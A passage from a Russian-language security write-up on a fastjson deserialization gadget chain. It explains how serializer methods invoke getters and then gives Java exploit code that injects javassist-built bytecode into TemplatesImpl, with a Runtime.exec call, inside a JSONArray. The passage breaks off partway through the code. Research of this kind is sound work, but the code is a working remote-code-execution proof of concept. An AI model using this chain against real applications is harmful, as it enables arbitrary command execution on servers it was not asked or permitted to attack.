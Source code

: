 ```
                } else if (List.class.isAssignableFrom(propertyClass)) {
                    this._list(clazz, mw, property, context);
                } else if (propertyClass.isEnum()) {
                    this._enum(clazz, mw, property, context);
                } else {
                    this._object(clazz, mw, property, context);
                }
            } else {
                this._int(clazz, mw, property, context, context.var(propertyClass.getName()), 'I');
            }
        }
        ...
    }
```
+ Нас не особо интересует, что из этого вызовется, так как любой метод, начинающийся с _, вызовет ещё и * _get*, вызывающий getter для класса, для которого мы создаём сериалайзер.

### Что это даёт

В качестве хранимого в массиве объекта можно использовать класс TemplatesImpl, у которого есть метод *getTransletInstance* c вызовом *newInstance*, где можно создать произвольный класс с необходимым нам конструктором. Пример эксплойта:

```
import com.alibaba.fastjson.JSONArray;
import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;


public class Test {
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"gnome-calculator\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "y4tacker");
        setValue(templates, "_tfactory", null);


        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
```